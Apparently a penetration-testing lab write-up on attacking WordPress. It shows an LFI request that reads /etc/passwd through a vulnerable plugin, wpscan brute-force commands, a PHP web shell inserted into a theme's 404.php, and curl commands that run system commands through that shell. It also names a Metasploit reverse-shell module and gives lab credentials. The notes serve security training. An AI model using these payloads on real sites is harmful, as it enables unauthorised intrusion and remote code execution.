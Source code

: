 # 🧊 Exploitation

## Vulnerable Plugin

Let's say we identified via a WPScan an outdated theme or plugin known to be vulnerable to SQL Injection as well as Local File Inclusion (LFI). \
We can verify if the LFI can be exploited based on this exploit-db [report](https://www.exploit-db.com/exploits/40290/). The exploit states that any unauthenticated user can read local files through the path: `/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Or through cURL ->

```shell-session
curl http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

### User Bruteforce

The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`. The `wp-login` method will attempt to brute force the normal WordPress login page, while the `xmlrpc` method uses the WordPress API to make login attempts through `/xmlrpc.php`.

```shell-session
wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com
```

_**Perform a bruteforce attack against the user "roger" on your target with the wordlist "rockyou.txt". Submit the user's password as the answer.**_

```
wpscan --password-attack xmlrpc -t 20 -U roger -P /home/htb-ac-1032889/Downloads/rockyou.txt --url http://94.237.53.113:47407
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## RCE via the Theme Editor

With administrative access to WordPress, we can modify the PHP source code to execute system commands. Once we're logged in, we click on `Appearance` on the side panel and select `Theme Editor`. This page will allow us to edit the PHP source code directly.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see that the active theme is `Transportex` so an unused theme such as `Twenty Seventeen` should be chosen instead.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Choose a theme and click on `Select`. Next, choose a non-critical file such as `404.php` to modify and add a web shell.

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

And now we should be able to use a webshell using the `404.php?cmd=id`.

And we can check this with the following cURL command:&#x20;

```shell-session
curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"
```

_**Use the credentials for the admin user \[admin:sunshine1] and upload a webshell to your target. Once you have access to the target, obtain the contents of the "flag.txt" file in the home directory for the "wp-user" directory.**_

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
http://94.237.53.113:47407/wp-content/themes/twentyseventeen/404.php?cmd=id
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
curl -X GET "http://94.237.53.113:47407/wp-content/themes/twentyseventeen/404.php?cmd=cat%20/home/wp-user/flag.txt"
```

## Attacking with Metasploit

To obtain the reverse shell, we can use the `wp_admin_shell_upload` module. We can easily search for it inside `MSF`:

```shell-session
msf5 > search wp_admin
```

Once we set all of the options for this module and we hit run, it will launch a reverse shell

